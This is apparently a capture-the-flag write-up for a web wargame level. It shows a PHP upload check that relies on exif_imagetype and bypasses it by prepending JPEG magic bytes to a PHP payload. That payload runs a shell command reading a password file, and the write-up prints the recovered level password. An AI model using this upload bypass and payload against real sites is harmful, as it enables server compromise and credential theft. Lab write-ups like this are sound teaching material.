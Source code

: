 # Writeup level 13
Very similar to level 12 except that they have built a little check to see if it is an actual jpg.  

```php
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }

```

As we can see they use the function **exif_imagetype** to check if it is an jpg. The problem for them is that exif_imagetype only checks the first couple of bytes (magic bytes) to determine what type it is.  

**Exploit**

- Check what are the magic bytes for jpg
- Put them in a file called myjpg.php
- Append php code from level 12 to it
- Upload the file the same way we did in level 12

jpg magic bytes are: FF D8 FF DB  
```
echo -n -e '\xFF\xD8\xFF\xEE' > myjpg.php;echo '<?php $command = exec("cat /etc/natas_webpass/natas14"); echo $command; ?>' >> myjpg.php
```

The password is:  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

